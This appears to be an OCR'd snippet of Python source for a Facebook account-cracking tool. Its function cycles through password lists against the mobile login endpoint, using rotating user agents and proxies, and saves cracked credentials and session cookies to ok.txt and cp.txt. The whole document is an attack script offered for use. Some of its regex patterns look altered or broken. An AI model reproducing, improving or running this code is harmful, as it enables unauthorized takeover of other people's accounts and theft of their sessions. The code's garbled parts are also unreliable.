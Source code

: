 def freeq(uid,pwx,tl):
    global loop
    global ok
    global cp
    global ugen
    try:
        for ps in pwx:
            bi = random.choice([A])
            session = requests.Session()
            fhr = random.choice(ugen)
            free_fb = session.get('https://m.facebook.com').text
            log_data = {
                "lsd":re.search('D4DY-M4H1N="lsd" value="(.*?)"', str(free_fb)).group(1),
            "jazoest":re.search('D4DY-M4H1N="jazoest" value="(.*?)"', str(free_fb)).group(1),
            "m_ts":re.search('D4DY-M4H1N="m_ts" value="(.*?)"', str(free_fb)).group(1),
            "li":re.search('D4DY-M4H1N="li" value="(.*?)"', str(free_fb)).group(1),
            "email":uid,
            "pass":ps,
            "login":"Log In"}
            header_freefb = {'authority':'mobile.facebook.com',
            'upgrade-insecure-requests': '1',
            'viewport-width': '809',
            'method': 'GET',
            'scheme': 'https',
            'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
            'accept-language': 'en-US,en;q=0.9', 
            'dnt':'1', 
            'x-requested-with':'mark.via.gp', 
            'sec-fetch-site': 'same-origin',
            'sec-fetch-mode': 'navigate',
            'sec-fetch-user': '?1',
            'sec-fetch-dest': 'document',
            'accept-encoding':'gzip, deflate, br','accept-language': 'en-US,en;q=0.9',
            'cache-control': 'max-age=0',
            'sec-ch-ua': '"Chromium";v="107", "Not=A?Brand";v="24"',
            'sec-ch-ua-mobile': '?0','sec-ch-ua-platform': '"Linux"',
            "sec-ch-prefers-color-scheme": "light",
            'user-agent': fhr}
            lo = session.post('https://mobile.facebook.com/login/device-based/login/async/?refsrc=deprecated&lwv=100',data=log_data,headers=header_freefb,proxies=proxs).text
            log_cookies=session.cookies.get_dict().keys()
            if 'c_user' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[7:22]
                os.system("play-audio M4H1N_OK.mp3")
                print('\033[1;92m[M4H1N-OK] '+uid+' | '+ps+'\n\033[92;1m[\033[91;1m●\033[92;1m] COOKIE : '+coki+'\033[0;97m')
                open('ok.txt', 'a').write(uid+' | '+ps+'\n')
                cek_apk(session,coki)
                oks.append(cid)
                break
            elif 'checkpoint' in log_cookies:
                coki=";".join([key+"="+value for key,value in session.cookies.get_dict().items()])
                cid = coki[24:39]
                os.system("play-audio M4H1N_CP.mp3")
                print('\033[1;97m[M4H1N-CP] '+uid+' | '+ps+' | '+fhr+'\033[0;97m')
                open('cp.txt', 'a').write(uid+' | '+ps+'\n')
                cps.append(cid)
                break
            else:
                continue
        loop+=1